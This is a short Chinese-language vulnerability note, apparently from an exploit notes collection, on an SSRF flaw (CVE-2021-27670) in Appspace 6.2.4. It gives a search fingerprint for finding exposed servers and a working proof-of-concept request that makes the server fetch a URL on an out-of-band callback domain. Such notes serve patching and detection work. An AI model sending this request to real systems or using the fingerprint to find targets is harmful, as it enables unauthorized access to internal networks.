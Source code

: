 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

# Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

```
Appspace 6.2.4
```

## 网络测绘

```
"Sign-in-to-Appspace-Core"
```

## 漏洞复现

登录页面为

![image-20220524140826821](/images/202205241408911.png)

验证POC

```
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://db0bx.2lfmar.yourdomain.xyz
```

![image-20220524141221709](/images/202205241412770.png)

